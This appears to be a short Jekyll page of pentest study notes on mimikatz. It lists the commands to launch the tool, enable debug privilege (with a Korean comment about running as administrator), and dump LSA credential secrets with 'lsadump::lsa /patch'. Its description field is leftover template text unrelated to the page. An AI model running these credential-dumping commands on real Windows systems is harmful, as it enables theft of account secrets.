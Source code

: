 ```yaml
---
layout: page
title: mimikatz
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


```powershell
./mimikatz.exe
```

```powershell
# 이렇게 하면 mimikatz를 관리자로 실행하고 있습니다. MimiKatz를 관리자로 실행하지 않으면 MimiKatz가 제대로 실행되지 않습니다
privilege::debug
```

```powershell
lsadump::lsa /patch
```

